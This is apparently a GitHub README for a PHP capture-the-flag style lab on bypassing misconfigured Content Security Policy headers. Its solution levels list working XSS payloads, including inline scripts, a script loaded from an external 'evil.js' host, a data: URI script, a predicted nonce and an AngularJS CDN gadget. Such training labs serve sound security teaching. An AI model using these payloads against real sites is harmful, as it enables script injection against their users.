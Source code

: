 # CSP Bypass Lab
Bypass project of CSP security standard, which is a protection method for XSS vulnerability. 
This project contains sample test cases for bypassing incorrectly&incompletely configured CSP headers. 

## What is CSP
Content Security Policy is a computer security standard that was introduced to prevent cross-site scripting, click-through, and other code injection attacks resulting from the execution of malicious content in the context of a trusted web page. 

This project created with PHP. For the run: https://www.geeksforgeeks.org/how-to-run-php-programs/#:~:text=If%20you%20want%20to%20run,Your%20program%20will%20run.

## Challenges
- unsafe-inline
- External Resource
- data directive
- src nonce
- Common uses JS CDN
- Google Callback Functions

## Solutions
Check https://csp-evaluator.withgoogle.com before solutions.

#### Level 1
As a result of the 'unsafe-inline' directive used, if the input entered contains a script tag, the javascript is triggered. Example payload 

```sh
<script>alert(1)</script>
```

#### Level 2
JS codes from yourjavascript.com, which is an external resource, will be allowed. It is triggered by malicious JS code. Go to yourjavascript.com , create malicious code and upload.

```sh
<script type="text/javascript" src="http://yourjavascript.com/0513280132/evil.js"></script>
```

#### Level 3
data: URI in script-src allows the execution of unsafe scripts.

```sh
<script src=data:text/javascript,alert(1337)></script>
```

### Level 4
We see the base64 encode form of current time's as the nonce value in response as the CSP rule. Example payload

```sh
<script nonce="MjcuMDMuMjAyMS8yMjoxNw==">alert(1)</script>
```

### Level 5
One of the most used JavaScript CDNs is cdnjs.cloudflare.com. At this level, we will try to trigger XSS on a page that has Cloudflare allowed CDN resources.

```sh
<Script Src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.0/angular.min.js> </Script><K Ng-App>{{$new.constructor('alert(1)')()}}
```

### Level 6
Same as the previous level, here you can use callback functions.

### Level 7
Given this CSP header:
Content-Security-Policy: frame-src https://example.com
The following <iframe> is blocked and won't load:
  
```sh
<iframe src="https://not-example.com/"></iframe>
```

Call the allowed page in Frame.

##### Useful Resources
- https://brutelogic.com.br/blog/csp-bypass-guidelines/
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy
